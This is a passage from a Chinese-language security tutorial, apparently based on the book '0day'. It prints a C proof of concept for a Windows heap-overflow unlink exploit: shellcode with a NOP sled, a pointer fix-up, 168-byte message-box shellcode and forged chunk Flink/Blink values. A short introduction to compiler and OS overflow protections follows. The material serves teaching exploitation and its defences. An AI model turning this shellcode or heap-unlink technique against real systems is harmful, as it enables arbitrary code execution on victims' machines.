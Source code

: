 0day书中的代码:

```
#include <windows.h>
char shellcode[]=
"\x90\x90\x90\x90\x90"    // nop
"\x90\x90\x90\x90\x90"    // nop
            // repaire the pointer which shooted by heap shooting
"\xb8\x20\xf0\xfd\x7f"    // mov eax,7ffdf020
"\xbb\x03\x91\xf8\x77"    // mov ebx,77F89103 this addr may related to OS patch version
"\x89\x18"                // mov dword ptr ds:[eax],ebx
            // 168 bytes popwindow shellcode
"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53"
"\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75"
"\x05\x95\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE"
"\x06\x3A\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03"
"\xDD\x03\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB\x53\x68\x77\x65\x73\x74\x68\x66\x61\x69\x6C\x8B\xC4\x53"
"\x50\x50\x53\xFF\x57\xFC\x53\xFF\x57\xF8"
"\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90"
"\x16\x01\x1A\x00\x00\x10\x00\x00" // 块首的8字节
"\x88\x06\x52\x00\x20\xf0\xfd\x7f"; // Flink+Blink,Blink为0x7ffdf020,Flink为00520688


int main()
{
    HLOCAL h1=0,h2=0;
    HANDLE hp=HeapCreate(0,0x1000,0x10000);
    //print_shellcode();return 0;
    h1 = HeapAlloc(hp,HEAP_ZERO_MEMORY,200);
    memcpy(h1,shellcode,0x200);
    //_asm int 3;
    h2=HeapAlloc(hp,HEAP_ZERO_MEMORY,8);
    return 0;
}

```

Flink的值需要在调试时确定,指向shellcode起始位置

0x04 第二部分：溢出保护和绕过
=================

* * *

我们常说的溢出,就是要覆盖缓冲区,现代的操作系统针和编译器对此种攻击做出了很多的防御措施.

第一层是编译器层面,例如gcc的stack protector,vc的gs,第二层是操作系统层面的DEP,aslr,safeseh,sehop等.

所谓知己知彼百战不殆.下文详情
